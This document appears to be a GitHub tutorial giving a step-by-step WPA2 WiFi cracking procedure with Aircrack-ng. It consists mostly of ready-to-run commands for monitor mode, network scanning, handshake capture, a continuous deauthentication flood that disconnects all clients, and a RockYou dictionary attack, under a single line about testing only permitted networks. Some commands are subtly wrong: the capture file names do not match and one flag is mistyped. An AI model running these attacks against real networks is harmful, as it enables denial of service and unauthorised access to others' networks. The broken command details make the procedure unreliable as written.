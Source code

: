 This is how to use handshake attack on network

---

### **What You Need**  
- A **laptop**  
- **VMWare** or **VirtualBox** (for a virtual machine)  
- A **WiFi adapter** that supports **monitor mode**  
- A **WiFi network** that you are allowed to test  

---

### **Steps to Hack WiFi (WPA2)**  

1. **Check your WiFi interface**  
   ```bash
   iw dev
   ```
   This shows your WiFi interfaces. Look at the name (example: `wlan0`).  

2. **Stop conflicting processes**  
   ```bash
   sudo airmon-ng check kill
   ```
   This stops other programs that may block Aircrack-NG.  

3. **Enable monitor mode**  
   ```bash
   sudo airmon-ng start wlan0
   ```
   This puts your WiFi adapter into **monitor mode** (new name: `wlan0mon`).  

4. **Check if monitor mode is working**  
   ```bash
   iw dev
   ```
   This confirms that the adapter is now in **monitor mode**.  

5. **Scan for WiFi networks**  
   ```bash
   sudo airodump-ng wlan0mon
   ```
   This shows all WiFi networks around you.  

6. **Important details:**  
   - **MAC address** of the network  
   - **Signal strength**  
   - **Channel number**  
   - **Encryption type** (WPA/WPA2/WEP)  

7. **Capture WiFi traffic**  
   ```bash
   sudo airodump-ng -w captures -bssid <MAC Address> wlan0mon
   ```
   This saves the network traffic into a file.  

8. **Disconnect all devices from the WiFi**  
   ```bash
   sudo aireplay-ng --deauth 0 -a <MAC Address of AP> wlan0mon
   ```
   This forces devices to reconnect, so we can capture the **handshake**.  

9. **Open the captured file in Wireshark**  
   ```bash
   wireshark capture-01.cap
   ```
   This lets you see the captured network traffic.  

10. **Filter for WPA handshake packets**  
    ```
    eapol
    ```
    This shows **only handshake packets** in Wireshark.  

11. **Turn off monitor mode**  
    ```bash
    sudo airmon-ng stop wlan0mon
    ```
    This returns your WiFi adapter to normal mode.  

12. **Extract the RockYou wordlist**  
    ```bash
    sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
    ```
    This extracts a **wordlist** of common passwords.  

13. **Crack the WiFi password**  
    ```bash
    sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap
    ```
    This tries to find the password using the **wordlist**.  

---

### **Final Result**  
- **If successful:** "Key found!" and the password appears.  
- **If failed:** You need a better wordlist.  

